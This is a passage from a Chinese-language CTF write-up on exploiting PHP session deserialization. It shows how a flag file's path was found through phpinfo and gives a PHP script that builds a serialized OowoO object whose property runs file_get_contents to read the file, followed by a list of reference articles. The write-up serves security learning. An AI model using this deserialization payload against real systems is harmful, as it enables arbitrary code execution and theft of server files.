

可以看到`Here_1s_7he_fl4g_buT_You_Cannot_see.php`这个文件，flag肯定在里面，但还有一个问题就是不知道这个路径，路径的问题就需要回到phpinfo页面去查看



因此我们只需要把payload，当中改为`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`即可获取flag

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```


# 参考文章

https://xz.aliyun.com/t/2715

https://xz.aliyun.com/t/2613

https://threezh1.com/2019/09/09/phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf

https://blog.csdn.net/qq_43431158/article/details/99544797

https://www.cnblogs.com/or4nge/p/13439974.html

https://blog.zsxsoft.com/post/38

https://paper.seebug.org/680/

https://www.freebuf.com/articles/web/182231.html

https://www.freebuf.com/vuls/202819.html